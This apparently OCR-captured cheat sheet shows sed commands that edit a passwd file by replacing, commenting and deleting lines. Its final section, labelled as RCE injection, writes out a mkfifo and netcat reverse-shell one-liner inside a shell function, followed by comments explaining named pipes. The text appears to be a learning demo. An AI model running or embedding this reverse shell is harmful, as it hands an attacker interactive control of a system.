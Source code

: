 ####  Replace 2nd match only
```
cat passwd| sed 's/root/blood/2'
```

####  Replace content in the file using option -i 
```
sed -i 's/root/blood/g' passed
```

####  Replace the content in the password file but create a backup file too
```
sed -i.backup 's/root/blood/g' passed
```

####  command lines, (add # in the first lines)
```
cat passwd|sed '1 s/^/#/'
```

####  comment the range of the lines 1-10
```
cat passwd|sed '1,10 s/^/#/'
```

####  Uncomment means remove # from the range or line number
```
cat passwd|sed '1,10 s/^#//'
```

####  Delete line number or range
```
cat -n passwd|sed '1d'
cat -n passwd|sed '1,10d'
cat -n passwd|sed '1d;2d;3d'
```

####  delete empty line whereas ^ will be start and $ will be end
```
cat passwd|sed -i '/^$/d'
```

####  Inject the script RCE in to command
- Create a tool demo
nano demo
```
exps(){
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 127.0.0.1 4444 > /tmp/f &
# What is mkfifo
# First In, First Out
#
In a Linux directory listing, the letter p in the file permissions indicates that the file is a named pipe,
# which is created using the mkfifo command.
# Named pipes are also referred to as FIFOs (First In, First Out) and are a form of interprocess communication.
# or
# mkfifo is a command in Linux used to create a special type of file called a FIFO (First In, First Out).
# A FIFO is also known as a named pipe, and it provides a mechanism for interprocess communication (IPC) between two processes.
}
exps
```
